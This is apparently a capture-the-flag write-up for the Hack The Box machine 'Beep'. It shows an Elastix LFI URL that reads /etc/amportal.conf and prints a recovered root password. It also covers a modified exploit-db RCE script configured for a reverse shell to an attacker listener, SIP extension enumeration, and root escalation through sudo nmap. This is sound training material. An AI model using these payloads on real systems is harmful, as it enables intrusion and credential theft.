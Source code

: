 # Beep

### Machine Info:
![alt text](screenshots/machine_info.png)


#### Nmap:
![alt text](screenshots/nmap.png)


##### Webmin Server (Port 10000):
Tried to login with default/common credentials but failed.
![alt text](screenshots/webmin.png)


##### Web application 'Elastix' (Port 80):
![alt text](screenshots/elastix.png)

First I tried to login with default/common credentials but failed.
After that I just searched for elastix if it has vulnerability.
![alt text](screenshots/search_elastix.png)

Seems like it has some vulnerability but I do not know which version is running.
Let's just start with 'graph.php' LFI vulnerability.

From the exploit `37637.pl`:
```
#LFI Exploit:
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Access to that address to check vulnerability:
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
![alt text](screenshots/lfi.png)

###### The web application has vulnerability in LFI(Local File Inclusion)!!

Another example(/etc/passwd):
![alt text](screenshots/lfi2.png)


#### Vulnerability:
The websever is running `Elastix 2.2.0` and the application is vulnerable to LFI (Local File Inclusion) and also RCE (Remote Code Execution) is possible.



##### Exploits:

###### Method 1 (LFI):
By using the LFI, it is able to read some files. The file /etc/amportal.conf includes the passwords of root, `jEhdIekWmdjE`

And SSH:
![alt text](screenshots/ssh.png)

<br></br>

###### Method 2 (RCE):
```
Exploit Code: https://www.exploit-db.com/exploits/18650
```

Modification of exploit:
```
import urllib,ssl                                                                                                                                                                                                                                             
rhost="10.10.10.7"                                                                                                                                                                                                                                            
lhost="10.10.14.37"                                                                                                                                                                                                                                           
lport=4444                                                                                                                                                                                                                                                    
extension="233"                                                                                                                                                                                                                                              

ssl._create_default_https_context=ssl._create_unverified_context
```

To find out valid extension which is 233:
```
❯ svwar -m INVITE -e200-300 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
WARNING:TakeASip:extension '202' probably exists but the response is unexpected
| Extension | Authentication |
------------------------------
| 202       | weird          |
| 233       | reqauth        |

```

`SIPVicious` is a Session Initiation Protocol (SIP) auditing tool that has been observed to be used in increasing reconnaissance attacks against IP and VoIP phones and PBX systems.

`svwar` identifies working extension lines on a PBX. A working
extension is one that can be registered.
Also tells you if the extension line requires authentication or not.

Further reference: https://tools.cisco.com/security/center/viewAlert.x?alertId=33141


###### Execute exploit:
```
~/htb/beep
❯ python 18650.py
```
###### Netcat Listener:
![alt text](screenshots/netcat.png)

<br></br>



#### Privilege Escalation
For the first method, we are already `root` user, therefore we don't need to escalate our privilege. But the second method, we are user `asterisk` which is not root user which means we have to escalate our privilege.

First check for `sudo`:

![alt text](screenshots/sudol.png)

User asterisk can run commands such as `nmap, touch, chmod` with root privilege.

##### Exploit:
We can run `nmap` with root privilege and we can get root shell eventually.
![alt text](screenshots/sudonmap.png)

And you can get `root.txt` :)
